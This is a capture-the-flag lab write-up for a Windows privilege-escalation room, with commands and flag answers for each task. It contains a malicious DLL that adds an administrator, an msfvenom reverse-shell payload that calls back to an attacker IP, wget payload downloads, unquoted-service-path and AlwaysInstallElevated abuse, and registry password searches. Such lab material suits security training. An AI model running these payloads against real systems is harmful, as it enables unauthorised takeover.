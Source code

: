 # Windows Privesc

{% embed url="https://tryhackme.com/room/winprivesc" %}
https://tryhackme.com/room/winprivesc
{% endembed %}

## Task 2 Information Gathering

#### List users on the target system. One of them resembles a flag.

```bash
net users
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-17-17.png>)

{% hint style="success" %}
`THM-17213`
{% endhint %}

#### What is the OS version of the target machine?

```bash
systeminfo | findstr /B /C:"OS"
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-18-44.png>)

{% hint style="success" %}
`10.0.17763 N/A Build 17763`
{% endhint %}

#### When was security update KB4562562 installed?

```bash
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr KB4562562
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-20-33.png>)

{% hint style="success" %}
`6/10/2020`
{% endhint %}

#### What is the state of Windows Defender?

```bash
sc query windefend
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-23-25.png>)

{% hint style="success" %}
`STOPPED`
{% endhint %}

## Task 4 Vulnerable Software

#### What version of a Fitbit application can you see installed?

```bash
wmic product get name,version,vendor
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-41-31.png>)

{% hint style="success" %}
`2.0.1.6782`
{% endhint %}

#### What kind of vulnerability seems to affect the Fitbit application?

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-42-19.png>)

{% hint style="success" %}
`Unquoted Service Path`
{% endhint %}

#### What version of FoxitReader is installed on the target system?

```bash
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate `
| Format-Table –AutoSize
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-48-15.png>)

{% hint style="success" %}
`9.0.1.1049`
{% endhint %}

## Task 5 DLL Hijacking

![](<../../.gitbook/assets/image (7) (1) (1).png>)

#### Replicate the example explained above on the target machine.&#x20;

```bash
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

```bash
x86_64-w64-mingw32-gcc hijackme.c -shared -o /var/www/html/hijackme.dll    
```

#### Modify the payload to change the password of the user jack

```bash
wget http://10.6.9.176/hijackme.dll -OutFile hijackme.dll
sc stop dllsvc & sc start dllsvc 
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-08-15.png>)

#### Login with Jack's account (the new password you have set). What is the content of the flagdll.txt file?

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-09-16.png>)

{% hint style="success" %}
`THM-8377492093`
{% endhint %}

## Task 6 Unquoted Service Path

we will need to make sure other requirements to exploit the vulnerability are filled. These are;

1. Being able to write to a folder on the path
2. Being able to restart the service

#### What is the full unquoted path of unquotedsvc

```bash
wmic service get name,displayname,pathname,startmode
sc qc unquotedsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-24-15.png>)

{% hint style="success" %}
`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
{% endhint %}

#### Go through subfolders in the unquotedsvc binary path. Which folder does the user have read and write privileges on?

```bash
Desktop\accesschk64.exe /accepteula -uwdq "C:\Program Files\"
Desktop\accesschk64.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-29-44.png>)

{% hint style="success" %}
`C:\Program Files\Unquoted Path Service`
{% endhint %}

#### What would be the name of the executable you would place in that folder?

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.9.176 -f exe \
         -o /var/www/html/unquotedpathservice.exe
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-32-25.png>)

```bash
cd C:\Program Files\Unquoted Path Service
wget http://10.6.9.176/unquotedpathservice.exe -OutFile common.exe
sc.exe stop unquotedsvc; sc.exe start unquotedsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-46-00.png>)

{% hint style="success" %}
`common.exe`
{% endhint %}

#### Obtain Administrator privileges on the target machine. What is the content of the flagUSP.txt file?

```bash
dir /S flagUSP.txt
type C:\Users\Cora\Documents\flagUSP.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-55-56.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-56-32.png>)

{% hint style="success" %}
`THM-636729273483`
{% endhint %}

## Task 7 Token Impersonation

Higher privileged service accounts will be forced to authenticate to a local port we listen on. Once the service account attempts to authenticate, this request is modified to negotiate a security token for the "NT AUTHORITY\SYSTEM" account. The security token obtained can be used by the user we have in a process called "impersonation".

### Hot Potato

* Step 1: The target system uses the Web Proxy Auto-Discovery (WPAD) protocol to locate its update server.&#x20;
* Step 2: This request is intercepted by the exploit, which sends a response redirecting the target system to a port on 127.0.0.1.&#x20;
* Step 3: The target system will ask for a proxy configuration file (wpad.dat).&#x20;
* Step 4: A malicious wpad.dat file is sent to the target.

![](<../../.gitbook/assets/image (8) (1) (1).png>)

* Step 5: The target system tries to connect to the proxy (now set by the malicious wpad.dat file sent on the previous step).&#x20;
* Step 6: The exploit will ask the target system to perform an NTLM authentication.&#x20;
* Step 7: The target system sends an NTLM handshake.&#x20;
* Step 8: The handshake received is relayed to the SMB service with a request to create a process. This process will have the privilege level of the service targeted, which would typically be "NT AUTHORITY\SYSTEM".

![](<../../.gitbook/assets/image (6) (1).png>)

## Task 8 Quick Wins

* **Scheduled Tasks**
*   **AlwaysInstallElevated**

    ```
    reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
    ```

    ```
    msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
    ```
* Passwords
*   Saved Credentials

    ```
    cmdkey /list
    runas /savecred /user:admin reverse_shell.exe
    ```
*   **Registry keys**

    ```
    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    ```
* **Unattend files**
  * Unattend.xml files helps system administrators setting up Windows systems.

## Reference

{% embed url="https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order" %}

{% embed url="https://steflan-security.com/windows-privilege-escalation-dll-hijacking" %}
